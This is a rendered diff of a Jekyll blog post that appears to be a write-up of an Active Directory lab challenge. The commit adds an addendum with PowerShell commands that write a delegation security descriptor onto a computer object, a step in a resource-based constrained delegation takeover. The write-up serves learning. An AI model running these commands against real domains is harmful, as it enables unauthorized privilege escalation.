

Before and after one commit to jpdias/jpdias.github.io, a Jekyll site: the page built from _posts/2021-06-30-intro-to-ad-challenge.md, in a window 1280 px wide and 900 px high, scrolled down 11111 px, cut to the strip 18-900 px from the top of the window. Shown: the whole strip, without its empty margins (114-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
add addendum

````diff
--- a/_posts/2021-06-30-intro-to-ad-challenge.md
+++ b/_posts/2021-06-30-intro-to-ad-challenge.md
@@ -224,6 +224,22 @@ We can manually confirm this by checking that `App1$` has the following configur
 
 | `msDS-AllowedToActOnBehalfOfOtherIdentity` | `D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3888316195-1058498269-834682652-1105)` |
 
+### Addendum
+
+The configuration `msDS-AllowedToActOnBehalfOfOtherIdentity` was not present in the first version of the challenge and was probably introduced by an earlier solver. If that configuration was not present we need to create it. Since the `writeradmin` has `GenericWrite` over `App1$`, we could simply update the computer object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable `App2$` control over it. Taken from [here](https://burmat.gitbook.io/security/hacking/domain-exploitation).
+
+```powershell
+## we can write our delegation attribute to the DC with the following:
+$UserSid = Get-DomainUser 'App1$' -Properties objectsid | Select -Expand objectsid
+## we already did know the SID of 'App1$' and we could pass it directly (S-1-5-21-3888316195-1058498269-834682652-1105)
+$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))"
+$SDBytes = New-Object byte[] ($SD.BinaryLength)
+$SD.GetBinaryForm($SDBytes, 0)
+Get-DomainComputer app1.oposec.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
+```
+
+After that we could proceed to carry out the next steps.
+
 ## `App1$` takeover
 
 By searching for attacks that leverage this `AllowedToActOnBehalfOfOtherIdentity` functionality, we quickly find [*Kerberos Resource-based Constrained Delegation: Computer Object Take Over*](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution). While this is a several steps attack, we already have an account which has the `AllowedToAct` rights, thus we can focus on a subset of the steps of the attack:
````
